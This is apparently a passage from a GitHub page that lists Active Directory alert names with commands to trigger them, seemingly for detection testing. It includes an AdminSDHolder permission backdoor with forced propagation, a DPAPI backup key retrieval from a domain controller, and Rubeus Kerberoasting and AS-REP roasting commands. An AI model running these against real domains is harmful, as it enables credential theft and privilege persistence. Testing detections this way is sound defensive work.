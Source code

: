 ### Suspicious modification of domain AdminSdHolder

```powershell
# Modify AdminSDHolder permissions
$adminSDHolder = 'CN=AdminSDHolder,CN=System,{0}' -f (Get-ADDomain).DistinguishedName
dsacls.exe $adminSDHolder /G 'john:RPWP;msDS-KeyCredentialLink'

# Force ACL propagation
$pdc = (Get-ADDomain).PDCEmulator
$rootDSE = [adsi] "LDAP://$pdc/RootDSE"
$rootDSE.UsePropertyCache = $false
$rootDSE.Put('runProtectAdminGroupsTask', 1)
$rootDSE.SetInfo()
```

## Credential Access

### Suspected Brute Force attack (LDAP)

### Suspected Golden Ticket usage (forged authorization data)

### Malicious request of Data Protection API master key

```powershell
Get-LsaBackupKey -Server CONTOSO-DC
```

### Suspected Brute Force attack (Kerberos, NTLM)

### Security principal reconnaissance (LDAP)

```yml
Learning period: 15 days per computer, starting from the day of the first event, observed from the machine.
```

### Suspected Kerberos SPN exposure

```cmd
Rubeus.exe kerberoast /domain:contoso.com /nowrap
```

### Suspected AS-REP Roasting attack

```cmd
Rubeus.exe asreproast /nowrap
```

### Suspicious modification of a sAMNameAccount attribute (CVE-2021-42278 and CVE-2021-42287 exploitation)
